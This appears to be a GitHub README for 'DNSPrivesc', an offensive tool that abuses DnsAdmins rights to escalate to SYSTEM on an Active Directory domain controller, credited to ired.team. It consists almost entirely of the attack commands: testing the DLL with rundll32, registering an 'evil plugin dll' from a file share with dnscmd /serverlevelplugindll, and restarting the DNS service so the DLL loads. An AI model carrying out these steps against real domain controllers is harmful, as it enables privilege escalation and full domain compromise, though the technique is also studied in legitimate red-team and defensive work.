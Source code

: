 # DNSPrivesc
Shamelessly copied from:
[ired.team](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) - Go read it for more detailed explanation

## Using the DLL

Build and test
```
rundll32.exe .\DNSPrivesc.dll,DnsPluginInitialize
```
Upload evil plugin dll
```
dnscmd dc01.corp.local /config /serverlevelplugindll \\fileshare\dnsprivesc.dll
```
Restart DNS service to apply the evil DLL
```
sc stop dns
sc start dns
```
